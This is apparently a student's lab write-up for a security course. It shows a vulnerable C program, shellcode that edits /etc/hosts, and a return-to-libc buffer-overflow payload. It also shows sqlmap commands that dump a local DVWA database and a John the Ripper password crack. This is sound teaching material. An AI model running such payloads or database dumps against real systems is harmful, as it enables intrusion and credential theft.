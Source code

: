 # Lab #1, 22110080, Ly Dang Trieu, INSE3308E_02FIE

# Task 1: Software buffer overflow attack

Given a vulnerable C program

```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```

and a shellcode in asm. This shellcode add a new entry in hosts file

```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```

**Question 1**:

- Compile asm program and C program to executable code.
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is added to the /etc/hosts file on your linux.
  You are free to choose Code Injection or Environment Variable approach to do.
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
  **Answer 1**: Must conform to below structure:

Description text (optional)
- Stack frame of `vuln.c`:
  
![stackframe](https://github.com/user-attachments/assets/6ba7454b-8817-4dd2-83ab-c08021280a03)

- Compile asm program and C program to executable code.
  
![img0](https://github.com/user-attachments/assets/9fb357a1-a96b-4222-a489-8c23dcb38f00)

- Use an older bash and turn off randomly given stack value.

![img1](https://github.com/user-attachments/assets/e0baee2c-9e03-48e1-a838-cf14988c5286)

- Create environmet variable `preload` with `export`
  
![img2](https://github.com/user-attachments/assets/5eba5ab4-e8e3-4348-b619-e1961e175895)

- Look at `/etc/hosts`, just user `root` can be write onto this file. So we need set `uid bit` for `writeip` and permisson write in `/etc/hosts`.

![hosts](https://github.com/user-attachments/assets/4e4eaace-e2b0-494e-8c50-caa2ab183f12)
![img](https://github.com/user-attachments/assets/33b5bb61-bb2d-42f6-bca7-df9bd0a65470)
![writeip](https://github.com/user-attachments/assets/575290c0-0951-4c64-9c33-f9bc3303ff5a)


- We need to find the address of `system`, `exit` and `preload` variable. Load `vuln.out` into `gdb` and find them.
  - Address value of system: `0xf7e50db0` will be inserted with format `\xb0\x0d\xe5\xf7`
  - Address value of exit: `0xf7e449e0` will be inserted with format `\xe0\x49\xe4\f7`
  - Address value of the string of `preload`: 0xffffde32 will be inserted with format `\x32\xde\xff\xff`
 
![img3](https://github.com/user-attachments/assets/cfe172ed-b234-4c03-8190-4f101d198441)

- Look at stack frame, we have to insert 20 bytes of padding, the next 4 bytes are the system address, the next 4 bytes are exit and the last 4 bytes are preload. So our command is:
```
r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x32\xde\xff\xff')")
```
![frame-system](https://github.com/user-attachments/assets/200582bf-198b-48b6-8522-e91b596af9ac)
![img4](https://github.com/user-attachments/assets/7eda45ff-b92b-43a1-8199-a9f8d24dd397)


output screenshot (optional)

- Before
  
![img5](https://github.com/user-attachments/assets/dc9d261e-99df-48b1-81f1-448eba44af4f)

- After

![win](https://github.com/user-attachments/assets/529baffe-f153-42df-831c-afeba8a4e703)


**Conclusion**: The buffer overflow vulnerability in the C program was successfully exploited using shellcode injection, return-to-lib-c.

# Task 2: Attack on the database of Vulnerable App from SQLi lab

- Start docker container from SQLi.
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup.

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
- Use them command below to get information about all available databases
```
run `python3 sqlmap.py -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=kdmmsrmp3voj7k0alb3e9bfgb6; security=low" --dbs
```
- The back-end database is: `MySQL`, it has two database is
  - dvwa
  - infomation_schema
  
![sql1](https://github.com/user-attachments/assets/c1ec353e-32ea-46e5-be69-ed3ec890d90c)

- In database `dvwa`
  
![sql2](https://github.com/user-attachments/assets/471338dd-0a6d-4d56-b90b-30083f5f954d)


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
- Use the command below to get users information and crack the password.
```
python3 sqlmap.py -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=kdmmsrmp3voj7k0alb3e9bfgb6; security=low" --dump
```
![sql3](https://github.com/user-attachments/assets/cd3646a5-b1d0-45a6-b747-251d5c08b781)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

![sql4](https://github.com/user-attachments/assets/35c2cee2-bd31-41b3-8a79-adb25828302f)
